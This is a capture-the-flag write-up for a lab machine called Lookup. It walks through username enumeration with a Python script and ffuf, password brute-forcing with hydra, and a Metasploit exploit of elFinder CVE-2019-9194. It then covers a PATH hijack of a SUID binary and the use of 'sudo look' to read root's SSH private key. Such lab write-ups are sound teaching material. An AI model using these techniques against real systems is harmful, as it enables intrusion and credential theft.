 
**Target IP:** `10.10.249.27`
**Difficulty:** `Easy`
**Categories:** Web, Privilege Escalation
_________

## Enumeration

Starting off with a `nmap` scan to discover open ports and services - 

`sudo nmap -sV -sC 10.10.249.27 -T4 -vv`

Output - 

~~~
Discovered open port 22/tcp on 10.10.249.27
Discovered open port 80/tcp on 10.10.249.27
	http-title: Did not follow redirect to http://lookup.thm
~~~~


We can visit the website at `10.10.249.27` after adding an entry in `/etc/hosts` file.

~~~
10.10.249.27    lookup.thm
~~~~

There is a login page.

`admin:admin` credentials gives a message: 
_____

Using a python script to find valid users:

~~~
import requests
from concurrent.futures import ThreadPoolExecutor, as_completed

# Target URL
url = "http://lookup.thm/login.php"

# Wordlist file
wordlist = "/usr/share/seclists/Usernames/Names/names.txt"

# Common incorrect password to use in testing
password = "randompassword"

# Define an invalid username to compare responses
invalid_username = "invaliduser1234"

# Get baseline response for an invalid username
baseline_response = requests.post(url, data={"username": invalid_username, "password": password})
invalid_response_length = len(baseline_response.text)

print(f"[*] Baseline response length for invalid username: {invalid_response_length}")

# Function to test a single username
def test_username(username):
    username = username.strip()
    if not username:
        return None

    data = {"username": username, "password": password}
    try:
        response = requests.post(url, data=data, timeout=5)
        if len(response.text) != invalid_response_length:
            return username
    except requests.RequestException:
        return None
    return None

# Read all usernames
with open(wordlist, "r") as f:
    usernames = [line.strip() for line in f if line.strip()]

# Run the checks in parallel
found_usernames = []
with ThreadPoolExecutor(max_workers=20) as executor:
    futures = {executor.submit(test_username, username): username for username in usernames}
    for future in as_completed(futures):
        result = future.result()
        if result:
            print(f"[+] Potential valid username found: {result}")
            found_usernames.append(result)

~~~~~

`python3 user_enum2.py`

Output - 

~~~
[*] Baseline response length for invalid username: 74
[+] Potential valid username found: admin
[+] Potential valid username found: jose
~~~~


Alternately - 

To find the baseline content length in response we can send a request using curl

```
curl -s -X POST -d "username=invaliduser1234&password=randompassword" \
     -H "Content-Type: application/x-www-form-urlencoded" \
     http://lookup.thm/login.php | wc -c

```

`ffuf` Command for Username Enumeration

```
ffuf -w /usr/share/seclists/Usernames/Names/names.txt \
     -X POST \
     -d "username=FUZZ&password=randompassword" \
     -H "Content-Type: application/x-www-form-urlencoded" \
     -u http://lookup.thm/login.php \
     -fs 74 

```

~~~
Note:

-fs       Filter by response size (skip responses with this length)
~~~~

~~~
admin                   [Status: 200, Size: 62, Words: 8, Lines: 1, Duration: 173ms]
jose                    [Status: 200, Size: 62, Words: 8, Lines: 1, Duration: 182ms]

~~~~

____________

Finding a valid password for user `jose`.

`hydra -l jose -P /usr/share/wordlists/rockyou.txt lookup.thm http-post-form "/login.php:username=^USER^&password=^PASS^:Wrong password. Please try again.<br>Redirecting in 3 seconds." -V`

~~~
[80][http-post-form] host: lookup.thm   login: jose   password: password123
~~~~

Logging in with the credentials `jose:password123` redirects us to `files.lookup.thm`. 

We have to add this domain to our `/etc/hosts` file along with `lookup.thm`.

We are then taken to an online file manager called `elfinder`.

Looking around the file manager, here are some findings - 

~~~
credentials.txt
think : nopassword

app version: 2.1.47 
~~~~~
______

## Exploitation

On searching `exploit-db`, there is an exploit for elfinder version 2.1.47: `CVE:2019-9194` 

This is a **'PHP connector' Command Injection**.

Using `msfconsole` and searching for `elfinder`, There is a metasploit module for this.

We can set `RHOSTS` as `files.lookup.thm` and `LHOST` as our machine IP and run the exploit.

We successfully get a meterpreter shell.

Using the `shell` command, the meterpreter shell is converted to a normal terminal.
______

## Privilege Escalation

### Part 1

`find / -type f -perm -04000 -ls 2>/dev/null`

~~~
9154     20 -rwsr-sr-x   1 root     root               17176 Jan 11  2024 /usr/sbin/pwm
~~~~

The only suspicious binary is `pwm` as it is custom and unknown. On executing it:

~~~
cd /usr/sbin

./pwm
[!] Running 'id' command to extract the username and user ID (UID)
[!] ID: www-data
[-] File /home/www-data/.passwords not found
~~~

It is extracting the `id` of the current user. To understand the mechanism, lets download the executable by copying it to the home directory of the web server then access it from `lookup.thm/pwm`.

`cp pwm /var/www/lookup.thm/public_html`

We can use `binary ninja` tool to reverse engineer the code and find that indeed the program reads the `id` executable.

![[Lookup-Img-1.png]]

Since the program uses a relative path to the `id` command, We can point to a different `id` executable in `tmp` directory.

`cd /tmp`

Mimicking the original `id` command to be read as user `think`.

```
echo '#!/bin/bash' > id
echo 'echo "uid=1000(think) gid=1000(think) groups=1000(think)"' >> id
chmod +x id
```

Running the `pwm` command again, we successfully get the contents of `.password` file. 

**Password:** `josemario.AKA(think)`

`ssh think@10.10.217.130`

~~~
think@lookup:~$ whoami
think

think@lookup:~$ ls
user.txt

~~~~
______

### Part 2

Checking for sudo privileges of the user

~~~
think@lookup:~$ sudo -l
[sudo] password for think: 
Matching Defaults entries for think on lookup:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User think may run the following commands on lookup:
    (ALL) /usr/bin/look

~~~~

The user can run look command with sudo privileges. A a lookup on `gtfobins` shows that this command can be used to read files with higher privileges. We can use it to read the `/root/.ssh/id_rsa` file which will allow us to ssh as `root`.

```
LFILE=/root/.ssh/id_rsa
sudo look '' "$LFILE"
```

The ssh key can be copied to our local machine and saved as id_rsa.

Modify the permissions of the file: `chmod 600 id_rsa`

The following command is used to ssh as root using its ssh key.

`ssh root@10.10.249.27 -i id_rsa`

Viola! We have successfully logged in as `root`. A simple `ls` command reveals the flag file.
